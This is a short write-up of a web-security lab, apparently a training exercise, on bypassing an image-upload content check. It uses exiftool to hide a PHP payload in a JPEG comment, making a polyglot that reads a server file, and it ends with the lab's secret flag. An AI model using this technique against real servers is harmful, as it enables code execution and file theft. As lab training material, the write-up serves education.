

[Source]()
## Challenge
This lab contains a vulnerable image upload function. Although it checks the file contents to make sure it is a legitimate image, it is still possible to upload and execute server-side code.

To solve this challenge, download the basic PHP web shell and use it to get the contents of the file `/home/carlos/secret`. Submit this secret using the button provided on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that it is possible to upload an image. Let's try to upload a PHP file.


We see that the server sees this file as an invalid image, since it looks at the binary content of the file. And it does not match the content of the image. Generate a PHP/JPG polyglot file:
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.jpg -o polyglot.php
```


Load this `poliglot.php`


Go back to the profile so that a request to load this "picture" comes



```Secret
Blx9WTRDdseHRZY4QzqTCfetWvf9xEVb
```


